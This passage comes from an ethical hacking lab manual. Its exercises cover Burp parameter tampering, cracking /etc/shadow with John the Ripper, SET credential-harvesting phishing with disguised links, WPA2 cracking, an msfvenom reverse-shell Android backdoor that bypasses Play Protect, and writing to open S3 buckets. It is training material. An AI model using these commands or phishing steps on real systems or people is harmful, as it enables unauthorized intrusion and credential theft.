The Connection Settings window appears. Select the Manual proxy configuration radio button and specify the HTTP Proxy as 127.0.0.1 and the Port as 8080. Check the Also use this proxy for FTP and HTTPS checkbox and click OK. Close the Preferences tab.

Minimize the browser window, click the Applications menu in the top left corner of Desktop, and navigate to Pentesting --> Web Application Analysis --> Web Application Proxies --> burpsuite to launch the Burp Suite application.

A security pop-up appears, enter the password as toor in the Password field and click OK.

In the next Burp Suite Community Edition notification, click OK.

Burp Suite initializes. If a Burp Suite Community Edition notification stating An update is available appears, click Close.

Note: If a Terms and Conditions window appears click on I Accept

The Burp Suite main window appears. Ensure that the Temporary project radio button is selected and click the Next button, as shown in the screenshot below.

In the next window, select the Use Burp defaults radio-button and click the Start Burp button.

The Burp Suite main window appears. Click the Proxy tab from the available options in the top section of the window.

Note: If Burp Suite is out of date pop-up appears click OK.

In the Proxy settings, by default, the Intercept tab opens-up. Observe that by default, the interception is active as the button says Intercept is on. Leave it running.

Note: Turn interception on if it is off.

Switch back to the browser window, and on the login page of the target website (<www.moviescope.com>), enter the credentials sam and test. Click the Log In button.

Note: Here, we are logging in as a registered user on the website.

Switch back to the Burp Suite window and observe that the HTTP request was intercepted by the application.

Note: You can observe that the entered login credentials were intercepted by the Burp Suite.

Keep clicking the Forward button until you are logged into the user account.

Switch to the browser, and observe that you are now logged into the user account, as shown in the screenshot below.

Now, click the View Profile tab from the menu bar to view the user information.

After clicking the View Profile tab, switch back to the Burp Suite window and keep clicking the Forward button until you receive the HTTP request, as shown in the screenshot below.

Now, click Expand icon present in the right-corner of the window in the INSPECTOR section.

Inspector wizard appears, click to expand Query Parameters.

You can observe NAME and VALUE columns, double click on the value, or click arrow icon (>)

In the next wizard, change the VALUE from 1 to 2 and click Apply Changes button.

Now, click the Intercept is on button to turn off the interception.

After switching off the interception, navigate back to the browser window and observe that the user account associated with ID=2 appears with the name John, as shown in the screenshot below.

Note: Although we logged in using sam as the username with ID=1, using Burp Suite, we successfully tampered with the ID parameter to obtain information about other user accounts.

Similarly, you can edit the id parameter in Burp Suite with any random numeric value to view information about other user accounts.

Switch to the browser window and perform Steps 4-6. Remove the browser proxy set up in Step 7, by selecting the No proxy radio-button in the Connection Settings window and click OK. Close the tab.

This concludes the demonstration of performing parameter tampering using Burp Suite.

Close all open windows and document all the acquired information.

Exercise 6: Audit System Passwords using John-the-Ripper
Password credentials play a critical role in preventing illegitimate access to the data of an organization or a user.

Lab Scenario

A security professional must have the required knowledge to perform periodic audit of passwords in the organization using password cracking tools.

Lab Objectives

This lab demonstrates how to perform an active online attack to audit system's password using John the Ripper tool.

Overview of System Passwords

If user credentials are compromised, the reputation of the organization or person could be damaged. Occasionally, conventional face detection and other biometric security measures can also be vulnerable to credential breaches. Programmers use artifical intelligence or AI to improve biometric validations and face recognition to thwart such attacks. AI models can recognize an individual’s face by tracking key correlations and patterns.

Lab Tasks

Note: If you are already logged into the Attacker Machine-1, then skip to Step#3

Click on Target_ATTACKER MACHINE-1 to switch to the Attacker Machine-1 machine.

Click to select Bob account, in the Password field, type user@123 and press Enter to sign in.

In the left pane, under the Activities list, click the Terminal icon to open the Terminal window.

Note: If the Software Updater pop-up appears, click Remind Me Later.

In the Terminal window, type sudo su and press Enter to run programs as the root user.

In the [sudo] password for bob field, type user@123 as a password and press Enter.

Note: The password that you type will not be visible.

Now, type cd and press Enter to jump to the root directory.

Here, we will first create several user accounts and passwords which will be used further in auditing system passwords.

In the terminal, type adduser --gecos "" jason and press Enter to create the first user.

When prompted, enter alpha as a New Password and press Enter. In the Retype new password option, enter the same password (alpha) and press Enter.

Note: The password entered will not be visible.

The user is created successfully, as shown in the screenshot below.

Similarly, create the following additional accounts by using the adduser command (refer Step#8), and set the following passwords when prompted:

Note: You can use the Bash history feature for this task. After creating the user account jason, you can press the UP ARROW key once, delete the previous username and then enter the new username. This will allow you to create user accounts and passwords quickly.

In the Terminal window, type vim /home/bob/Desktop/Wordlists/Passwords.txt and press Enter to view the file content.

Note: Passwords.txt is a wordlist file containing sample passwords that will be used by John the Ripper as a source to crack passwords.

A list of passwords will be displayed, as shown in the screenshot below.

Press Ctrl+Z to close the file.

Now, we will combine the /etc/passwd and /etc/shadow files, and further use John the Ripper to audit the user passwords.

In the terminal, type unshadow /etc/passwd /etc/shadow > target-file and press Enter to create a text file including usernames and password hashes.

Type john --wordlist=/home/bob/Desktop/Wordlists/Passwords.txt target-file and press Enter to crack passwords.

The list of usernames and cracked passwords are displayed, as shown in the screenshot below.

In the terminal, type john --show target-file > results.txt and press Enter to save the content of target-file in a new file (results.txt).

Type gedit results.txt and press Enter to display the results.txt file, as shown in the screenshot below.

The John the Ripper tool for auditing the system passwords of machines in the target network and later enhance network security by implementing a strong password policy for any user accounts with weak passwords.

This concludes the demonstration of auditing system passwords using John the Ripper.

Close all open windows and document all the acquired information.

Exercise 7: Perform Social Engineering using Various Techniques to Sniff Users' Credentials
Social engineering refers to techniques by which unsuspecting target individuals are persuaded to share their credentials or personal information on a network.

Lab Scenario

Social engineering is the art of manipulating people to divulge sensitive information to use it to perform some malicious action. Despite security policies, attackers can compromise an organization’s sensitive information by using social engineering, which targets the weakness of people. Most often, employees are not even aware of a security lapse on their part and inadvertently reveal critical information of the organization. For instance, employees may unwittingly answer strangers’ questions or reply to spam emails.

A security professional must have the required knowledge of social engineering techniques to sniff user's credentials.

Lab Objectives

This lab demonstrates how to perform a social engineering attack to sniff user's credentials using the Social-Engineer Toolkit (SET).

Overview of Social Engineering

A social engineering tester, attempts to trick a user into disclosing personal information such as credit card numbers, bank account details, telephone numbers, or confidential information about their organization or computer system. In a real attack, attackers use these details either to commit fraud or to launch further attacks on the target system.

Before performing a social engineering attack, the attacker gathers information about the target organization from various sources such as the following:

The organization’s official websites, where employees’ IDs, names, and email addresses are shared
Advertisements of the target organization cast through media reveal information such as products and offers.
Blogs, forums, and other online spaces where employees share basic personal and organizational information.
After gathering information, the attacker executes social engineering attacks using various approaches such as impersonation, piggybacking, tailgating and reverse social engineering.

Lab Tasks

Note: If you are already logged into the Attacker Machine-2, then skip to Step#3

Click on Target_ATTACKER MACHINE-2 to switch to the Attacker Machine-2 machine.

In the login page, the attacker username will be selected by default. Enter password as toor in the Password field and press Enter to log in to the machine.

Note: If a Question pop-up window appears asking you to update the machine, click No to close the window.

Click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.

A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

In the [sudo] password for attacker field, type toor as a password and press Enter.

Note: The password that you type will not be visible.

Type cd and press Enter to jump to the root directory.

Type cd social-engineer-toolkit and press Enter to navigate to the setoolkit folder.

Type chmod +x ./setoolkit and press Enter to change the mode to execute the script.

Type ./setoolkit and press Enter to launch Social-Engineer Toolkit.

Note: If the question Do you agree to the terms of service appears, type Y and press Enter

Note: If you receive any errors ignore them.

The SET menu appears, as shown in the screenshot below. Type 1 and press Enter to choose Social-Engineering Attacks

A list of options for Social-Engineering Attacks appears. Type 2 and press Enter to choose Website Attack Vectors.

A list of options in Website Attack Vectors appears. Type 3 and press Enter to choose Credential Harvester Attack Method.

Type 2 and press Enter to choose Site Cloner from the menu.

Type the IP address of the local machine (10.10.1.13) in the prompt for “IP address for the POST back in Harvester/Tabnabbing” and press Enter.

Note: In this case, we are targeting the Attacker Machine-2 machine (IP address: 10.10.1.13). These details may vary in your lab environment.

You will be prompted for the URL to be cloned; type the desired URL in “Enter the url to clone” and press Enter. In this task, we will clone the URL <http://www.moviescope.com>.

Note: You can clone any URL of your choice.

If a message appears that reads Press {return} if you understand what we’re saying here, press Enter.

After cloning is completed, a highlighted message appears. The credential harvester initiates, as shown in the screenshot below.

Having successfully cloned a website, you must now send the IP address of the Attacker Machine-2 machine to a victim and attempt to trick them into clicking on the link.

Click the Firefox icon from the top-section of the Desktop to launch a web browser window and open your email account (in this example, we are using Mozilla Firefox and Gmail, respectively). Log in, and compose an email.

Note: If a notification appears at the top section of a browser window, click Okay, Got it and in the Before you continue to Google Search wizard, click I agree button.

Note: You can log in to any email account of your choice.

After logging into your email account, click the Compose button in the left pane and compose a fake but enticing email to lure a user into opening the email and clicking on a malicious link.

Note: A good way to conceal a malicious link in a message is to insert text that appears to be legitimate MovieScope URL (in this case), but actually links to the malicious cloned MovieScope page.

Position the cursor where the fake URL is to be placed, then click the Insert link icon.

In the Edit Link window, first type the actual address of the cloned site in the Web address field under the Link to section. Then, type the fake URL in the Text to display field. In this case, the actual address of the cloned MovieScope site is <http://10.10.1.13>, and the text that will be displayed in the message is <http://www.moviescope.com/party_pics>. Click OK.

The fake URL should appear in the message body, as shown in the screenshot below.

Verify that the fake URL is linked to the correct cloned site: in Gmail, click the link; the actual URL will be displayed in a “Go to link” pop-up. Once verified, send the email to the intended user.

Click CCTV1 ADMIN MACHINE-1 to switch to the Admin Machine-1 machine and click Ctrl+Alt+Del. By default, the Admin user profile is selected. Type admin@123 to enter the password in the Password field and press Enter to login.

Note: The Networks screen appears. Click Yes to allow your PC to be discoverable by other PCs and devices on the network.

Open any web browser (in this example, we are using Mozilla Firefox), sign in to the email account to which you sent the phishing mail as an attacker. Open the email you sent previously and click to open the malicious link.

Note: If a notification appears at the top section of a browser window, click Okay, Got it and in the Before you continue to Google Search wizard, click I agree button.

When the victim (you in this case) clicks the URL, a new tab opens up, and they will be presented with a replica of <www.moviescope.com>.

The victim will be prompted to enter their username and password into the form fields, which appear as on the genuine website. When the victim enters the Username and Password and clicks Login, they will be redirected to the legitimate MovieScope login page. Note the different URLs in the browser address bar for the cloned and real sites.

Now, click Target_ATTACKER MACHINE-2 to switch back to the Attacker Machine-2 machine and switch to the Terminal window.

As soon as the victim types in his/her Username and Password and clicks Login, SET extracts the typed credentials. These can now be used by the attacker to gain unauthorized access to the victim’s account.

Scroll down to find Username and Password displayed in plain text, as shown in the screenshot below.

This concludes the demonstration of phishing user credentials using SET.

Close all open windows and document all the acquired information.

Exercise 8: Crack a WPA2 Network using Aircrack-ng
WPA2 is an upgrade to WPA using AES and the Counter Mode Cipher Block Chaining Message Authentication Code Protocol (CCMP) for wireless data encryption.

Lab Scenario

A security professional must have the required knowledge of performing wireless attacks on a WPA2 network to test the target network’s security infrastructure.

Lab Objectives

This lab demonstrates how to use the Aircrack-ng suite to crack a WPA2 network.

Overview of WPA2 Network

Wi-Fi Protected Access (WPA) is a security protocol defined by the 802.11i standard. In the past, the primary security mechanism used between wireless APs (access points) and wireless clients was WEP encryption, which has a major drawback in that it uses a static encryption key. An attacker can exploit this weakness using tools that are freely available on the Internet. IEEE defines WPA as “an expansion to the 802.11 protocols that can allow for increased security.” Nearly every Wi-Fi manufacturer provides WPA.

Lab Tasks

Note: To capture wireless traffic, a wireless adapter is required. However, it is not possible to use an adapter in the iLabs environment. Therefore, in this lab, we are using a sample capture file (WPA2crack-01.cap) to crack WPA key.

Note: Ensure that the Sample Captures and Wordlist folders are present at the location home/attacker/Desktop

In Attacker Machine-2, click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.

A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

In the [sudo] password for attacker field, type toor as the password and press Enter.

Note: The password that you type will not be visible.

Now, type cd and press Enter to jump to the root directory.

In the Parrot Terminal window, type aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap' and press Enter. Here, the BSSID (Basic Service Set Identifier) of the target is 20:E5:2A:E4:38:00.

Note: - -a is the technique used to crack the handshake, 2=WPA technique.

-b refers to the BSSID; replace [Target BSSID] with the BSSID of the target router.
-w stands for wordlist; provide the path to a wordlist.

The result appears, showing the WPA handshake packet captured with airodump-ng. The target access point’s password is cracked and displayed in plain text next to the message KEY FOUND!, as shown in the screenshot.

Note: If the password is complex, aircrack-ng will take a long time to crack it.

This concludes the demonstration of cracking a WPA2 network using Aircrack-ng.

Close all open windows and document all the acquired information.

Exercise 9: Hack an Android Device by Creating Binary Payloads
Android is a software environment developed by Google for mobile devices.

Lab Scenario

The number of people using smartphones and tablets increasing, as these devices support a wide range of functionalities. Android is the most popular mobile OS, because it is a platform open to all applications. Like other OSes, Android has its vulnerabilities, and not all Android users install patches to keep OS software and apps up to date and secure. This laxity enables attackers to exploit vulnerabilities and launch various types of attacks to steal valuable data stored on victims’ devices.

Owing to the extensive usage and implementation of bring your own device (BYOD) policies in organizations, mobile devices have become a prime target for attacks. Attackers scan these devices for vulnerabilities. Attacks can involve the device and the network layer, the data center, or a combination of these.

A security professional should be familiar with all the hacking tools, exploits, and payloads to perform various tests on mobile devices connected to a network to assess its security infrastructure.

Lab Objectives

This lab demonstrates how to hack an Android device by creating binary payloads.

Overview of Hacking Android Platforms

Android includes an OS, a middleware, and key applications. Its Linux-based OS is designed especially for portable devices such as smartphones and tablets. Android has a stack of software components categorized into six sections (System Apps, Java AP Framework, Native C/C++ Libraries, Android Runtime, Hardware Abstraction Layer [HAL], and Linux kernel) and five layers.

As number of users with Android devices have been increasing, they have become the primary targets for hackers. Attackers use various Android hacking tools to discover vulnerabilities in the platform, and then exploit them to launch attacks such as DoS, Man-in-the-Disk, and Spear phone attacks.

Lab Tasks

In this lab, we will use Metasploit to create a binary payload in Attacker Machine-2 to hack an Android device.

In the Attacker Machine-2, click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.

A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

In the [sudo] password for attacker field, type toor as a password and press Enter.

Note: The password that you type will not be visible.

Type cd and press Enter to jump to the root directory.

In the Parrot Terminal window, type service postgresql start and press Enter to start the database service.

Type msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk and press Enter to generate a backdoor, or reverse meterpreter application.

Note: This command creates an APK (Backdoor.apk) on Desktop under the Root directory. In this case, 10.10.1.13 is the IP address of the Attacker Machine-2.

Note: The Payload size might differ when you perform this lab task.

Now, share or send the Backdoor.apk file to the victim machine (in this lab, we are using the Android Device as the victim machine).

Note: In this task, we are sending the malicious payload through a shared directory, but in real attacks, attackers may send payloads via an attachment in an email, over Bluetooth, or through some other application or means.

Execute the below commands to create a share folder:

Note: If the shared folder does not exist, navigate to /var/www/html and create a folder named share, using the commands below:

Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
Type service apache2 start and press Enter to start the Apache web server.

Note: If you receive any error, restart the Attacker Machine-2 and perform step 9 again.

Type cp /root/Desktop/Backdoor.apk /var/www/html/share/ and press Enter to copy the Backdoor.apk file to the location share folder.

Type msfconsole and press Enter to launch the Metasploit framework.

In msfconsole, type use exploit/multi/handler and press Enter.

Issue the following commands in msfconsole:

Type set payload android/meterpreter/reverse_tcp and press Enter.
Type set LHOST 10.10.1.13 and press Enter.
Type show options and press Enter. This command lets you know the listening port (in this case, 4444), as shown in the screenshot.

Type exploit -j -z and press Enter. This command runs the exploit as a background job.

Click Target_ANDROID DEVICE to switch to the Android Device machine.

If the Android machine is non-responsive, click the Commands icon from the top-left corner of the screen and navigate to Power --> Reset/Reboot machine.

Note: If a Reset/Reboot machine pop-up appears, click Yes to proceed.

In the Android Emulator GUI, click the Chrome icon in the lower section of the Home Screen to launch the browser.

Note: If a Welcome to Chrome pop-up appears click on Accept & Continue and in the Turn on sync? page, click on No thanks.

In the address bar, type <http://10.10.1.13/share> and press Enter.

Note: If a Browse faster. Use less data. notification appears, click No thanks.

Note: If a pop up appears, click Allow.

The Index of /share page appears. Click Backdoor.apk to download the application package file.

After the download finishes, a notification appears at the bottom of the browser window. Click Open to open the application.

Note: If Chrome needs storage access to download files, a pop-up will appear; click Continue. If any pop-up appears stating that the file contains a virus, ignore the message and download the file anyway.

Note: In Allow Chrome to access photos, media, and files on your device?, click ALLOW.

Note: If a warning message appears in the lower section of the browser window, click OK.

Note: If an Open with option appears, choose Package installer and click Always.

A MainActivity screen appears. Click Next, and then INSTALL.

Note: If a Blocked by Play Protect pop-up appears click on INSTALL ANYWAY. If a Send app for scanning? pop-up appears click on DON'T SEND

After the application installs successfully, an App installed notification appears. Click OPEN.

Click Target_ATTACKER MACHINE-2 switch back to the Attacker Machine-2 machine. The meterpreter session has been opened successfully, as shown in the screenshot below.

Note: In this case, 10.10.1.11 is the IP address of the victim machine (Android Device).

Type sessions -i 1 and press Enter. The Meterpreter shell is launched as shown in the screenshot below.

Note: In this command, 1 specifies the number of the session.

Type sysinfo and press Enter. This command displays the information on the target machine such as computer name, OS.

Type ipconfig and press Enter to display the victim machine’s network interfaces, IP address (IPv4 and IPv6), MAC address, etc. as shown in the screenshot below.

Note: The MAC Addresses might differ in your lab environment.

Type pwd and press Enter to view the current working directory on the remote (target) machine.

Type cd /sdcard to change the current remote directory to sdcard.

Note: The cd command changes the current remote directory.

Type pwd and press Enter. The present working directory will be changed to sdcard, that is, /storage/emulated/0.

While, still in the Meterpreter session, type ps and press Enter to view the processes running in the target system.

Note: The list of running processes might differ in your lab environment.

Note: Because of poor security settings and a lack of awareness, if an individual in an organization installs a backdoor file on their device, the attacker gains control of the device. The attacker can then perform malicious activities; for example, they can upload worms, download data, and spy on the user’s keystrokes, which can reveal sensitive information related to the organization as well as the victim

Close all open windows.

Click Target_ANDROID DEVICE to switch to the Android Device machine.

On the Home Screen, swipe up to view all the applications.

In the applications drawer, long click on the MainActivity application and click App info.

An App info page appears. Click UNINSTALL button to uninstall the application.

Note: If a pop-up appears, click OK.

This concludes the demonstration of hacking an Android device by creating binary payloads.

Close all open windows and document all the acquired information.

Exercise 10: Exploit Open S3 Buckets using AWS CLI
S3 buckets are used by customers and end users to store text documents, PDFs, videos, images, etc.

Lab Scenario

A security professional must have sound knowledge of enumerating S3 buckets. Using various techniques, misconfigurations in the bucket can be exploited to breach the security mechanism to compromise data privacy. Leaving the S3 bucket session running enables an attacker to modify files such as JavaScript or related code and inject malware into the bucket files. Furthermore, finding the bucket’s location and name will help you in testing its security and identifying vulnerabilities in the implementation.

Lab Objectives

This lab demonstrates how to exploit S3 buckets using AWS CLI.

Overview of S3 Buckets

S3 buckets are used to store different types of data. The user needs to create a bucket with a unique name.

Listed below are several techniques that can be adopted to identify AWS S3 Buckets:

Inspecting HTML: Analyze the source code of HTML web pages in the background to find URLs to the target S3 buckets
Brute-Forcing URL: Use Burp Suite to perform a brute-force attack on the target bucket’s URL to identify its correct URL
Finding subdomains: Use tools such as Findsubdomains and Robtex to identify subdomains related to the target bucket
Reverse IP Search: Use search engines such as Bing to perform reverse IP search to identify the domains of the target S3 buckets
Advanced Google hacking: Use advanced Google search operators such as “inurl” to search for URLs related to the target S3 buckets.
Lab Tasks

Note: Before starting this task, you must create an AWS account (<https://aws.amazon.com>).

Click Target_ATTACKER MACHINE-2 to switch to the Attacker Machine-2 machine. In the Attacker Machine-2 machine, click the MATE Terminal icon in the menu to launch the terminal.

2. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

3. In the [sudo] password for attacker field, type toor as a password and press Enter.

Note: The password that you type will not be visible.

4. Type cd and press Enter to jump to the root directory.

5. In the terminal window, type pip3 install awscli and press Enter to install AWS CLI.

6. Once the installation is completed, type aws --help and press Enter to check whether AWS CLI is properly installed.

Note: Ignore errors (if any).

7. To configure AWS CLI in the terminal window, type aws configure and press Enter.

8. It will ask for the following details:

    - AWS Access Key ID
    - AWS Secret Access Key
    - Default region name
    - Default output format

9. To provide these details, you need to login to your AWS account.

10. Click Firefox icon from the top-section of the Desktop.

11. Login to the AWS account that you created at the beginning of this task. Click the Firefox browser icon in the menu, type <https://console.aws.amazon.com> in the address bar, and press Enter.

Note: If you do not have an AWS account, create one with the Basic Free Plan, and then proceed with the tasks.

12. The Amazon Web Services Sign-In page appears. Type your email address in the Email address field and click Next.

13. Type your AWS account password in the Password field and click Sign in.

14. Click the AWS account drop-down menu and select Security credentials, as shown in the screenshot below.

15. Click Access keys (access key ID and secret access key) in the Your Security Credentials section.

16. Click the Create New Access Key button.

17. A Create Access Key pop-up appears, stating that your access key has been successfully created. Click the Show Access Key link to view the access key.

18. Copy the Access Key ID displayed by pressing Ctrl+C and switch to the Terminal window.

19. Right-click anywhere in the terminal window and select Paste from the context menu to paste the copied Access Key ID. Press Enter. This will prompt you to the AWS Secret Access Key. Switch to your AWS account in the browser.

20. In the Create Access Key pop-up, select the Secret Access Key displayed, copy it by pressing Ctrl+C, and minimize the browser window. Switch to the Terminal window.

21. Right-click anywhere in the terminal window, select Paste from the context menu to paste the copied Secret Access Key. Press Enter. This will prompt you for the default region name.

22. In the Default region name field, type eu-west-1 and press Enter.

23. The Default output format prompt appears; leave it as default and press Enter.

24. For demonstration purposes, we have created an open S3 bucket with the name certifiedhacker1 in the AWS service. We are going to use that bucket in this task.

Note: The Public S3 buckets can be found during the enumeration phase.

25. Let us list the directories in the certifiedhacker1 bucket. In the terminal window, type aws s3 ls s3://[Bucket Name] (here, Bucket Name is certifiedhacker1) and press Enter.

Note: The bucket name may be different in your lab environment depending on the bucket you are targeting.

26. This will display the list of directories in the certifiedhacker1 S3 bucket, as shown in the screenshot below.

 Note: The directories in the certifiedhacker1 S3 bucket might differ when you perform the task.

1. Maximize the browser window, type certifiedhacker1.s3.amazonaws.com in the address bar, and press Enter.

2. This will display you the complete list of directories and files available in this bucket.

29. Minimize the browser window and switch to the Terminal window.

30. Let us move some files to the certifiedhacker1 bucket. To do this, in the terminal window, type echo “You have been hacked” >> Hack.txt and press Enter.

31. Issuing this command, creates a file named Hack.txt.

32. Let us attempt to move the Hack.txt file to the certifiedhacker1 bucket. In the terminal window, type aws s3 mv Hack.txt s3://certifiedhacker1 and press Enter.

33. The Hack.txt file has been successfully moved to the certifiedhacker1 bucket.

34. To verify whether the file has been moved, switch to the browser window and maximize it. Reload the page.

35. You can observe that the Hack.txt file has been moved to the certifiedhacker1 bucket, as shown in the screenshot below.

36. Minimize the browser window and switch to the Terminal window.

37. Let us delete the Hack.txt file from the certifiedhacker1 bucket. To do this, in the terminal window, type aws s3 rm s3://certifiedhacker1/Hack.txt and press Enter.

38. Issuing this command, deletes Hack.txt file from the certifiedhacker1 bucket.

39. To verify whether the file has been deleted, switch to the browser window and reload the page.

40. Confirm that the Hack.txt file has been deleted from the certifiedhacker1 bucket.

41. Thus, you can add or delete files from open S3 buckets.

42. This concludes the demonstration of exploiting public S3 buckets.

43. Close all open windows and document all the acquired information.
